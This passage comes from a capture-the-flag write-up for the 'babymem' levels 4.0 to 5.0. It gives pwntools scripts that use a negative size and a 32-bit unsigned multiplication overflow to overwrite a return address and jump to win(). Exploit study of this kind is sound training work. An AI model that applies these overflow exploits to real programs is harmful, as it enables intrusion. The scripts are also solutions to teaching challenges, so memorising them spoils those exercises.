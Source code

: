 **My script:**

```
from pwn import *
r = process('/challenge/babymem_level4.0')
r.recvuntil(b'Payload size: ')
r.sendline(b'-1')
r.recvuntil(b'Send your payload (up to -1 bytes)!')
r.sendline(b'A'*88 + p64(0x00000000004024bc))
r.interactive()
```
# 4.1 Level 4.1:
-It is similar to the level before.
**My script:**

```
from pwn import *
r = process('/challenge/babymem_level4.1')
r.recvuntil(b'Payload size: ')
r.sendline(b'-1')
r.recvuntil(b'Send your payload (up to -1 bytes)!')
r.sendline(b'A'*40 + p64(0x0000000000401ac2))
r.interactive()
```
# 5. Level 5.0:
> In this level, there is no "win" variable.
> You will need to force the program to execute the win() function
> by directly overflowing into the stored return address back to main.

-First, I try something similar to the before level; however, it doesn't work.
```
babymem_level5.0: <stdin>:143: challenge: Assertion `record_size * record_num < (unsigned int) sizeof(input)' failed.
Aborted
```
-It clearly states that the size is an unsigned number; therefore, I think about what happens when an oversize 32 bit occurs.

**My script:**
```
from pwn import *
r = process('/challenge/babymem_level5.0')
r.recvuntil(b'Number of payload records to send: ')
r.sendline(b'8388608')
r.recvuntil('Size of each payload record: ')
r.sendline(b'512')
r.recvuntil(b'Send your payload (up to 4294967296 bytes)!')
r.sendline(b'A'*88 + p64(0x401656))
r.interactive()
```
# 5. Level 5.1:

